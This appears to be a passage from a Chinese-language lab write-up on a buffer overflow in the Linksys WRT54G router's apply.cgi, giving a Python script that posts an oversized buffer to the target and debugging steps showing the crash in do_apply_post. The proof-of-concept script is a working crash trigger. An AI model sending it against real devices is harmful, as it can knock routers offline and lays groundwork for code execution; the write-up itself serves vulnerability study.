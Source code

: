 ```
import sys
import urllib2
try:
    target=sys.argv[1]
except:
    print "usage:%s <target>" % sys.argv[0]
    sys.exit(1)
url="http://%s/apply.cgi" % target
buf="\x42"*10000+"\x41"*0x4000
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read() 

```
### 以debug的方式运行程序，等待调试
```
run_cgi.sh debug    

```
### 使用IDA进行附加调试,附加之后直接运行即可，等待接收POST数据。

![wrt54g](wrt54g-run.png)

### 在实体机（windows）执行wrt54g_test.py
```
.\wrt54g_test.py 192.168.36.136 //后面的ip地址是我的虚拟机地址，也就是需要传入的参数target
```
![wrt54g](wrt54g-bq.png)
可以看到程序在函数do_apply_post中发生崩溃，崩溃处是因为程序想要将零存储在0x4141a851,但是由于此地址是存在于.text段的，所以禁止写入，导致异常出现。